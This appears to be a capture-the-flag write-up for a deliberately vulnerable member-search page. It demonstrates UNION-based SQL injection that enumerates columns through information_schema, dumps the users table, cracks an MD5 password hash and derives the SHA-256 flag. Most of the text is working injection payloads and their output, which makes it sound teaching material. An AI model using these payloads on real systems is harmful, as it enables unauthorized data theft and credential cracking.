 

### Search members by ID

By entering an ID number, we can attempt to retrieve an initial table!

``
ID: 1 
First name: one
Surname : me
``

We can start by sending a SQL command:

``SELECT * FROM users``

``You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'SELECT * FROM users' at line 1``

We want to be able to use our own SELECT command and ignore the first one that gives an error. We can use the UNION method. The UNION keyword allows you to execute one or more additional SELECT queries and append the results to the original query.

We don't have the names of the columns, but thanks to ``information_schema``, which is default the database informations,  we can retrieve all the necessary data.

``1 UNION SELECT column_name, table_name FROM information_schema.columns``

```
ID: 1 UNION SELECT column_name, table_name FROM information_schema.columns
First name: user_id
Surname: users

ID: 1 UNION SELECT column_name, table_name FROM information_schema.columns
First name: first_name
Surname: users

ID: 1 UNION SELECT column_name, table_name FROM information_schema.columns
First name: last_name
Surname: users

ID: 1 UNION SELECT column_name, table_name FROM information_schema.columns
First name: town
Surname: users

ID: 1 UNION SELECT column_name, table_name FROM information_schema.columns
First name: country
Surname: users

ID: 1 UNION SELECT column_name, table_name FROM information_schema.columns
First name: planet
Surname: users

ID: 1 UNION SELECT column_name, table_name FROM information_schema.columns
First name: Commentaire
Surname: users

ID: 1 UNION SELECT column_name, table_name FROM information_schema.columns
First name: countersign
Surname: users

```

We successfully retrieved all the corresponding tables and columns:

- user_id
- first_name
- last_name
- town
- country
- planet
- Commentaire
- countersign

Therefore, we can extract data from the users table with the following command:

``1 UNION SELECT first_name, country FROM users``

``` 
ID: 1 UNION SELECT first_name, country FROM users
First name: one
Surname: me

ID: 1 UNION SELECT first_name, country FROM users
First name: one
Surname: France

ID: 1 UNION SELECT first_name, country FROM users
First name: two
Surname: Finland

ID: 1 UNION SELECT first_name, country FROM users
First name: three
Surname: Ireland

ID: 1 UNION SELECT first_name, country FROM users
First name: Flag
Surname: 42
```

We have identified the table corresponding to the Flag; the rest should be in the other columns. A simple search among several columns will display the flag.

``1 UNION SELECT first_name, Commentaire FROM users``

```
ID: 1 UNION SELECT first_name, Commentaire FROM users
First name: Flag
Surname: Decrypt this password -> then lower all the char. Sh256 on it and it's good!
```

``1 UNION SELECT first_name, countersign FROM users``

```
ID: 1 UNION SELECT first_name, countersign FROM users
First name: Flag
Surname: 5ff9d0165b4f92b14994e5c685cdce28
```

### Decrypt the password

To decrypt the password, we use the MD5 Decrypt tool, converting ``5ff9d0165b4f92b14994e5c685cdce28`` to ``FortyTwo``. Following the instructions in the comment, we lower the characters to ``fortytwo``, and then encrypt it with a SHA-256 tool, resulting in ``10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5``.
